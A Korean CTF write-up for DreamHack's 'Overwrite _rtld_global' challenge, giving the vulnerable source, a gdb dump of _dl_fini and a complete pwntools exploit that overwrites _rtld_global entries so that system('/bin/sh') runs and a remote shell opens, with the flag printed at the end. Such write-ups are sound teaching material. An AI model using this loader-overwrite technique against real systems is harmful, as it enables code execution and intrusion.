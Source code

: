# [DreamHack] Overwrite _rtld_global

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: _rtld_global에서 실습하는 문제입니다.
>
> Release: [Overwrite _rtld_global.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8550046/Overwrite._rtld_global.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161366277-3cce3d89-4115-497a-b2fe-3e8de8e117af.png)

## Analysis

```c
int main() {
  long addr;
  long data;
  int idx;

  init();

  printf("stdout: %p\n", stdout);
  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("addr: ");
        scanf("%ld", &addr);
        printf("data: ");
        scanf("%ld", &data);
        *(long long *)addr = data;
        break;
      default:
      	return 0;
    }
  }
  return 0;
}
```

`stdout`을 leak해준다. 이를 이용하여 libc와 ld 주소를 계산할 수 있다. AAW가 제한 없이 가능하므로, `_rtld_global` 구조체를 덮어써서 `system("/bin/sh")`를 호출하면 셸을 획득할 수 있다.

```
gdb-peda$ pd _dl_fini _dl_fini+106
Dump of assembler code from 0x7faca70e5b40 to 0x7faca70e5baa::  Dump of assembler code from 0x7faca70e5b40 to 0x7faca70e5baa:
   0x00007faca70e5b40 <_dl_fini+0>:     push   rbp
   0x00007faca70e5b41 <_dl_fini+1>:     mov    rbp,rsp
   0x00007faca70e5b44 <_dl_fini+4>:     push   r15
   0x00007faca70e5b46 <_dl_fini+6>:     push   r14
   0x00007faca70e5b48 <_dl_fini+8>:     push   r13
   0x00007faca70e5b4a <_dl_fini+10>:    push   r12
   0x00007faca70e5b4c <_dl_fini+12>:    push   rbx
   0x00007faca70e5b4d <_dl_fini+13>:    sub    rsp,0x28
   0x00007faca70e5b51 <_dl_fini+17>:    mov    r12,QWORD PTR [rip+0x219e08]        # 0x7faca72ff960 <_rtld_global+2304>
   0x00007faca70e5b58 <_dl_fini+24>:    sub    r12,0x1
   0x00007faca70e5b5c <_dl_fini+28>:    js     0x7faca70e5d85 <_dl_fini+581>
   0x00007faca70e5b62 <_dl_fini+34>:    mov    DWORD PTR [rbp-0x40],0x0
   0x00007faca70e5b69 <_dl_fini+41>:    lea    rbx,[r12+r12*8]
   0x00007faca70e5b6d <_dl_fini+45>:    lea    rax,[rip+0x2194ec]        # 0x7faca72ff060 <_rtld_global>
   0x00007faca70e5b74 <_dl_fini+52>:    shl    rbx,0x4
   0x00007faca70e5b78 <_dl_fini+56>:    add    rbx,rax
   0x00007faca70e5b7b <_dl_fini+59>:    jmp    0x7faca70e5ba2 <_dl_fini+98>
   0x00007faca70e5b7d <_dl_fini+61>:    nop    DWORD PTR [rax]
   0x00007faca70e5b80 <_dl_fini+64>:    lea    rdi,[rip+0x219de1]        # 0x7faca72ff968 <_rtld_global+2312>
   0x00007faca70e5b87 <_dl_fini+71>:    call   QWORD PTR [rip+0x21a3db]        # 0x7faca72fff68 <_rtld_global+3848>
   0x00007faca70e5b8d <_dl_fini+77>:    sub    r12,0x1
   0x00007faca70e5b91 <_dl_fini+81>:    sub    rbx,0x90
   0x00007faca70e5b98 <_dl_fini+88>:    cmp    r12,0xffffffffffffffff
   0x00007faca70e5b9c <_dl_fini+92>:    je     0x7faca70e5d70 <_dl_fini+560>
   0x00007faca70e5ba2 <_dl_fini+98>:    lea    rdi,[rip+0x219dbf]        # 0x7faca72ff968 <_rtld_global+2312>
   0x00007faca70e5ba9 <_dl_fini+105>:   call   QWORD PTR [rip+0x21a3b1]        # 0x7faca72fff60 <_rtld_global+3840>
End of assembler dump.
```

`main` 함수가 리턴되고 나서 호출되는 `_dl_fini` 함수를 보면, `_dl_fini+98`에서 `_rtld_global+2312`를 인자로 받아서, `_dl_fini+105`에서 `__rtld_global+3840`에 저장된 주소를 호출한다. 각각을 `"/bin/sh"`의 주소와 `system` 함수의 주소로 덮으면 된다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('/home/ow_rtld/ow_rtld')
    stdout_offset = 0x3ec760
    system_offset = 0x4f420
    ld_offset = 0x3f1000
    rtld_global_offset = 0x22a060
else:
    r = remote('host1.dreamhack.games', 17593)
    stdout_offset = 0x3ec760
    system_offset = 0x4f550
    ld_offset = 0x3f1000
    rtld_global_offset = 0x22a060

sla = r.sendlineafter


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
system = libc + system_offset  # system()
ld = libc + ld_offset  # ld base
rtld_global = ld + rtld_global_offset  # _rtld_global


# overwrite _rtld_global+2312 with "/bin/sh"

sla('> ', '1')
sla('addr: ', str(rtld_global + 2312))
sla('data: ', str(u64('/bin/sh\x00')))


# overwrite _rtld_global+3840 with system()

sla('> ', '1')
sla('addr: ', str(rtld_global + 3840))
sla('data: ', str(system))


# call system("/bin/sh")

sla('> ', '0')


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 17593: Done
[*] Switching to interactive mode
$ cat flag
DH{2883ffb28842d85677f75c328da85cd7}
```